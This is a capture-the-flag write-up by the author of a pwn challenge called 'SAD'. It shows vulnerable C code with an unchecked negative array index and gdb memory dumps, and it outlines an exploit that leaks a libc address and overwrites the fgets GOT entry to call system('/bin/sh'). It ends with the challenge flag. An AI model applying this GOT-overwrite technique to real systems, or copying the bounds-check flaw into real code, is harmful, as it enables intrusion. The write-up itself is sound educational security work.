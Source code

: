 ## Challenge Name: SAD
**Category**: Pwn

**Points**: 499

**Solves**: 2

**Challenge Description**: There's a secret agent database (SAD) I
 just got access to, I wonder if there's more we can access beyond the secret agent names...

Given Files:
* [sad](sad)
* [chall.c](chall.c)
* [libc](libc6_2.35-0ubuntu3.6_amd64.so)
* [dynamic linker](ld.so)
* [solve.py](solve.py)

This was the first challenge I ever wrote for a ctf and I hope the players enjoyed it. Here is my intended solution and it also happens to be my first ever writeup so I apologise in advance if it is unclear.

## Solution
Running the binary we get
```
root@8bbc2ed97cff:/home/sieberr# ./sad
Welcome to the secret agent database (sad)!!!
Someone told me it can be hacked with ease...
--- MENU ---
1. Read a name
2. Change a name
3. Exit
> 1
Agent number: 0
[Agent no. 0]: Alice
--- MENU ---
1. Read a name
2. Change a name
3. Exit
> 2
Agent number: 0
New name: AAAA
[Agent no. 0]: AAAA

--- MENU ---
1. Read a name
2. Change a name
3. Exit
> 3
Bye
```
We can view and edit agent names based off an indexing system. Looking through the source code, we see that agents is an array stored in the .bss section as it is a global array.
```
char agents[][8] = {"Alice","Bob","Craig","David","Eve","Faythe"};
``` 
We can access negative indexes of the agents array as it only checks if the index is smaller than 8, meaning that we can read and write arbitary memory in this program. 
```
    while (1) {
        menu();
        scanf("%d", &choice);
        switch(choice) {
            case 1:
                printf("Agent number: ");
                scanf("%d", &index);
                if (index > (int)(sizeof(agents)/8)-1) {
                    puts("tsk tsk don't be naughty...");
                    exit(1);
                }
                printf("[Agent no. %d]: %s\n",index, agents[index]);
                break;
            case 2:
                printf("Agent number: ");
                scanf("%d", &index);
                if (index > (int)(sizeof(agents)/8)-1) {
                    puts("tsk tsk don't be naughty...");
                    exit(1);
                }
                getchar();
                printf("New name: ");
                fgets(agents[index],8,stdin);
                printf("[Agent no. %d]: %s\n",index, agents[index]);
                break;
            case 3:
                puts("Bye");
                exit(1);
            default:
                puts("Invalid Choice");
        }
```
In addition, the program is complied with no relro so the global offset table(got) is writeable. The got contains entries to functions in libc so that they are linked dynamically when the code runs.
```
//gcc  ./chall.c -Wl,-z,norelro -o sad
```

## Exploit
We can leak the addresses of libc functions in the got to defeat aslr. Examining memory in gdb, we can see that the printf got entry is at `0x555555600f28` and `-11` index of agents.
```
pwndbg> x/20gx 0x555555600f20
0x555555600f20: 0x00007ffff7e13e50      0x00007ffff7df36f0
0x555555600f30: 0x00007ffff7e12380      0x00007ffff7e1aae0
0x555555600f40: 0x00007ffff7df5090      0x00007ffff7dd85f0
0x555555600f50: 0x0000000000000000      0x0000000000000000
0x555555600f60: 0x0000000000000000      0x0000555555600f68
0x555555600f70: 0x0000000000000000      0x0000000000000000
0x555555600f80 <agents>:        0x0000006563696c41      0x0000000000626f42
0x555555600f90 <agents+16>:     0x0000006769617243      0x0000006469766144
0x555555600fa0 <agents+32>:     0x0000000000657645      0x0000656874796146
0x555555600fb0 <stdin@@GLIBC_2.2.5>:    0x00007ffff7fadaa0      0x0000000000000000
pwndbg> got

GOT protection: No RELRO | GOT functions: 6

[0x555555600f20] puts@GLIBC_2.2.5 -> 0x7ffff7e13e50 (puts) ◂— endbr64
[0x555555600f28] printf@GLIBC_2.2.5 -> 0x7ffff7df36f0 (printf) ◂— endbr64
[0x555555600f30] fgets@GLIBC_2.2.5 -> 0x7ffff7e12380 (fgets) ◂— endbr64
[0x555555600f38] getchar@GLIBC_2.2.5 -> 0x7ffff7e1aae0 (getchar) ◂— endbr64
[0x555555600f40] __isoc99_scanf@GLIBC_2.7 -> 0x7ffff7df5090 (__isoc99_scanf) ◂— endbr64
[0x555555600f48] exit@GLIBC_2.2.5 -> 0x7ffff7dd85f0 (exit) ◂— endbr64
```
The offset of system from printf is `0xf980` and we can overwrite the the a got entry to point to system in libc. This means that when that function is called, system is actually ran with all the original arguments.
```
pwndbg> x printf-system
0xf980: Cannot access memory at address 0xf980
```
A good victim would be `fgets` as it is called in this way
```
fgets(agents[index],8,stdin);
```
So when the got entry of `fgets` is overwritten to point to `system`. `system` with the first argument being an index of the `agents` array we can control and edit to be `/bin/sh` is called.
```
system(agents[index]);
```
1. Leak the `printf` address by reading -11 index of the `agents` array and calculate the address of `system` (Libc is given)

2. Edit an entry of `agents` array to `/bin/sh` 

3. Edit `fgets` (offset -10) got entry to point to system.

4. Choose to edit the index of `agents` array with `/bin/sh` written to trigger call to `system`


### Flag
sctf{4rr4y_00b5_4r3_d4ng3rou5}
